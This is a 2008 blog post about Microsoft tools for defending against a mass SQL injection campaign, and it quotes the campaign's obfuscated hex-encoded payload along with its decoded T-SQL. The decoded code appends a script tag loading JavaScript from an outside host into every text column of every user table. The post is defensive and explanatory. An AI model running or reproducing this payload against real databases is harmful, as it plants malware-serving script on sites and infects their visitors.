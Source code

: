 ```yaml
---
title: Microsoft Has Released Tools To Address SQL Injection Attacks
author: SQLDenis
type: post
date: 2008-06-25T11:37:29+00:00
ID: 74
url: /index.php/webdev/webdesigngraphicsstyling/microsoft-has-released-tools-to-address/
views:
  - 5242
rp4wp_auto_linked:
  - 1
categories:
  - Classic ASP
  - Microsoft IIS
  - Web Design, Graphics and Styling

---
```

Microsoft has released 3 tools that deal with the recent SQL injection attack.
  
These three tools include [HP Scrawlr][1] , [UrlScan][2] version 3.0 Beta , and a [SQL Source Code Analysis Tool][3]. Microsoft further recommends following the best practices found within security advisory [954462][4]. 

Most of the sites affected had this submitted as part of the injection 

```sql
DECLARE%20@S%20VARCHAR(4000);SET%20@S=CAST(0x4445434C415 245204054205641524348415228323535292C40432056415243
4841522832353529204445434C415245205461626C655 F437572736F7220435552534F5220464F522053454C45435420612E6 E616D652C622E6E616D652046524F4D207379736F626A65637473206 12C737973636F6C756D6E73206220574845524520612E69643D622E6 96420414E4420612E78747970653D27752720414E442028622E78747 970653D3939204F5220622E78747970653D3335204F5220622E78747 970653D323331204F5220622E78747970653D31363729204F50454E2 05461626C655F437572736F72204645544348204E4558542046524F4 D205461626C655F437572736F7220494E544F2040542C40432057484 94C4528404046455443485F5354415455533D302920424547494E204 55845432827555044415445205B272B40542B275D20534554205B272 B40432B275D3D525452494D28434F4E5645525428564152434841522 834303030292C5B272B40432B275D29292B27273C736372697074207 372633D687474703A2F2F7777772E63686B626E722E636F6D2F622E6 A733E3C2F7363726970743E27272729204645544348204E455854204 6524F4D205461626C655F437572736F7220494E544F2040542C40432 0454E4420434C4F5345205461626C655F437572736F72204445414C4 C4F43415445205461626C655F437572736F7220%20AS%20VARCHAR(4000));EXEC(@S);
```

This is of course done so that you can&#8217;t see the real SQL and then you can&#8217;t check for DROP, UPDATE and other DDL and DML commands 

So what does this look like when you replace %20 with a space and exec with print?

```
DECLARE Table_Cursor 
CURSOR FOR SELECT a.name,b.name FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) OPEN Table_Cursor 
FETCH NEXT FROM Table_Cursor INTO @T,@C 
WHILE(@@FETCH_STATUS=0) 
BEGIN 
EXEC('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://www.chkbnr.com/b.js></script>''')
 FETCH NEXT FROM Table_Cursor INTO @T,@C 
END CLOSE Table_Cursor DEALLOCATE Table_Cursor  
```

Somehow I think this could have been written set based 🙂

The problem is of course that you should never ever run as dbo or even worse sa.

 [1]: http://www.communities.hp.com/securitysoftware/blogs/spilabs/archive/2008/06/23/finding-sql-injection-with-scrawlr.aspx
 [2]: http://learn.iis.net/page.aspx/473/using-urlscan
 [3]: http://support.microsoft.com/kb/954476
 [4]: http://www.microsoft.com/technet/security/advisory/954462.mspx